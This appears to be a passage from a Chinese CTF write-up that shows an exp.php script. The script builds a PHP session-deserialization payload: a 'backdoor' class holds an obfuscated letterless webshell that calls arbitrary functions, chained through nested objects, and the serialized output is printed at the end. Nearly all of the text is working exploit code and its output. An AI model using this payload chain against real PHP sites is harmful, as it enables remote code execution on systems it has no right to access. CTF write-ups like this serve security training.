 构建 exp.php

```php
<?php
ini_set('session.serialize_handler','php_serialize');
session_start();
class neepu {
    public
        //! Memory-held data
        $data,
        //! Neepu
        $neepu,
        //! Info
        $info;

    public function __construct() {
        $this->info['info'] = new n33pu();
    }
}
class n33pu {
    public
        //! Neepu func
        $func;
}
class backdoor {
    public
        //! eval code
        $cmd = '$_=[];$_=@"$_";$_=$_["!"=="@"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____="_";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);';
}
class dumb {
    public
        //! dumb
        $dumb;
}

$a = new backdoor();
$b = new neepu();
$b->neepu = new neepu();
$b->neepu->info['info']->func = $a;
$c = new dumb();
$c->dumb = $b;
$z = serialize($c);
echo '|'.str_replace('"', '\\"', $z);
/*
|O:4:\"dumb\":1:{s:4:\"dumb\";O:5:\"neepu\":3:{s:4:\"data\";N;s:5:\"neepu\";O:5:\"neepu\":3:{s:4:\"data\";N;s:5:\"neepu\";N;s:4:\"info\";a:1:{s:4:\"info\";O:5:\"n33pu\":1:{s:4:\"func\";O:8:\"backdoor\":1:{s:3:\"cmd\";s:230:\"$_=[];$_=@\"$_\";$_=$_[\"!\"==\"@\"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____=\"_\";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);\";}}}}s:4:\"info\";a:1:{s:4:\"info\";O:5:\"n33pu\":1:{s:4:\"func\";N;}}}}
*/
```
